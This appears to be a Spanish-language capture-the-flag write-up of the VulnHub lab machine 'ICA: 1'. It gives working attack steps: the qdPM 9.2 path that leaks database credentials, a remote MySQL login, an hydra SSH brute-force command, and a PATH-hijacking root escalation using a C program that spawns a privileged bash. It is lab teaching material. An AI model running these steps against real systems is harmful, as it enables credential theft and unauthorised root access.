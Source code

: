 ```yaml
---
layout: single
title: ICA: 1 - Vulnhub
excerpt: "Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa."
date: 10/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Abusing qdPM 9.2 - Password Exposure (Unauthenticated)
  - Remote connection to the MYSQL
  - SSH brute force
  - Abusing SUID privilege
  - PATH Hijacking
---
```


Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa.


# PortScan
______
```
# Nmap 7.93 scan initiated Fri Nov 10 16:42:38 2023 as: nmap -sCV -p22,80,3306,33060 -oN targeted 192.168.204.159
Nmap scan report for 192.168.204.159
Host is up (0.00074s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, LongColumnFlag, SupportsCompression, Support41Auth, Speaks41ProtocolNew, FoundRows, SupportsTransactions, IgnoreSi
gpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongPassword, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, ConnectWithDatabase, Dont
AllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 3bnP)\x17D3\x01\x03X6S<+blTX[
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi
```


# Web Site
___
![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174213.png)

Tendríamos un **qdPM** con versión **9.2**, sí buscamos en **exploit-db,** encontraríamos este ["exploit"](https://www.exploit-db.com/exploits/50176) que nos indica qué en esta versión sé suele exponer la contraseña de la **DB** en esta dirección:
```
http://<website>/core/config/databases.yml
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174747.png)

Definitivamente, el recurso existe, nos lo descargamos en local para posterior ver el contenido qué está dentro.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174853.png)

# Conexión a la DB MySQL

Dentro tiene lo qué parece ser el nombre de usuario para acceder a la DB **MySQL** y la **contraseña**, comprobamos esto.
```bash
mysql -u qdpmadmin -h 192.168.204.159 -p
```

Una vez pongamos la contraseña, veremos qué definitivamente hemos logrado entrar a la **DB MySQL.**

Ahora nos interesaría ver las bases de datos existentes, las tablas & el contenido dentro de las columnas qué nos interesa, llegando así a encontrar posibles credenciales del sistema.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180000.png)

Encontramos lo qué parecen ser claves en **base64** de los mismos usuarios que logramos ver en la DB.

Por lo qué se me ocurre desconvertir las claves en **base64** & intentar conectarme a todos los usuarios con esas claves, pero podríamos automatizarlo mediante un ataque de fuerza bruta con Hydra, metiendo las credenciales en archivos de texto, es decir, meter los usuarios en un archivo y las contraseñas desconvertidas en otras, tal que así:

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180302.png)

Para ahora con **hydra** usando estos dos diccionario intentar conectarnos mediante fuerza bruta.

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.204.159
```

Reportándonos así la clave válida para uno de los usuarios.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180404.png)

Así qué ahora podríamos conectarnos a través de **SSH** a éste usuario.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180443.png)


# Escalada de Privilegios
_____


Buscando en la máquina archivos con permisos **SUID**.
```bash
find / -perm -4000 2>/dev/null
```

Encontraríamos un ejecutable con permisos **SUID** Root.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180654.png)

qué indagando sobre este ejecutable con strings.
```bash
strings /opt/get_access
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180921.png)

Vemos qué hace un **cat** a la ruta "**/root/system.info**", el problema es qué está usando la ruta relativa del **cat** y no la absoluta, por lo qué podríamos llevar a cabo un **Path Hijacking**.

Para ello debemos ir a un directorio donde tengamos permisos de escritura, por ejemplo a "**/tmp/**", montarnos el siguiente script en C.

Creamos el .C.
```python
nano cat.c
```

Que dentro tendrá el siguiente código
```python
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    char *binaryPath = "/bin/bash";
    char *args[] = {binaryPath, "-p", NULL};
    
    execv(binaryPath, args);
    return 0;
}
```

y lo compilamos
```bash
gcc cat.c -o cat
```

Ahora tocaría modificar la variable de entorno del sistema para qué que el ejecutable no llegue a la ruta real del **cat**, y llegue a la ruta donde lo tengamos nosotros, es decir "**/tmp/**".
```bash
export PATH=/tmp/:$PATH
```

De forma que cuando volvamos a ejecutar el "**get_access**" leerá nuestro **cat**, otorgándonos así una bash con privilegios como **Root**.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110182015.png)
